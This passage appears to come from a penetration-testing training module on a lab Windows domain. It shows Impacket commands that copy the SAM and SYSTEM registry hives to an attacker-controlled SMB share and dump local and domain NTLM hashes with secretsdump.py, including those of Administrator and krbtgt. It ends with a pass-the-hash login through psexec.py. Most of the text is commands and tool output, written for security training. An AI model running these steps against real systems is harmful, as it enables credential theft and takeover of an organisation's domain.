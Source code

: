 ```shell
reg.py inlanefreight.local/pedro:[email protected] backup -o '\\10.10.14.33\share'

Impacket v0.10.1.dev1+20230330.124621.5026d261 - Copyright 2022 Fortra

[!] Cannot check RemoteRegistry status. Hoping it is started...
[*] Saved HKLM\SAM to \\10.10.14.33\share\SAM.save
[-] Saved HKLM\SYSTEM to \\10.10.14.33\share\SYSTEM.save
<SNIP>

```

Depending on our privileges, we may be unable to retrieve the `NTDS.dit` database from Linux. `Pedro` is not privileged to connect via SMB to the target machine; therefore, we cannot retrieve the `ntds.dit` remotely. Instead, we must connect via RDP and download `ntds.dit` to complete this attack.

Once we have the `SAM` and the `SYSTEM` registry hives and the `ntds.dit` database, we can use [secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) to dump the database and attain the Administrator's hash:

#### Dumping the SAM & SYSTEM registry Hives with secretsdump.py

```shell
secretsdump.py -sam SAM.save -system SYSTEM.save -ntds ntds.dit LOCAL

Impacket v0.10.1.dev1+20230330.124621.5026d261 - Copyright 2022 Fortra

[*] Target system bootKey: 0x1b39bb8394e20baa2d7ffc0e85e6cbe2
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a678b5e7cc7777777d76a69ddf14c3ae:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 1636d5aaaf6cd0814af056f16001458e
[*] Reading and decrypting hashes from ntds.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f9ddbbd0677777796c8593ef89fb639c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931777777d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:511c700cce0cb37777774c69e04187f0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:dafbbaba2fef3a777777b4fedfc38dab:::

```

We can use tools such as [psexec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py), [wmiexec](https://github.com/fortra/impacket/blob/master/examples/wmiexec.py), [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec), [evil-winrm](https://github.com/Hackplayers/evil-winrm) or any other tool that allows passing hashes to connect to the target machine.

#### PtH from Linux

```shell
psexec.py [email protected] -hashes :f9ddbbd0677777796c8593ef89fb639c

<SNIP>

```
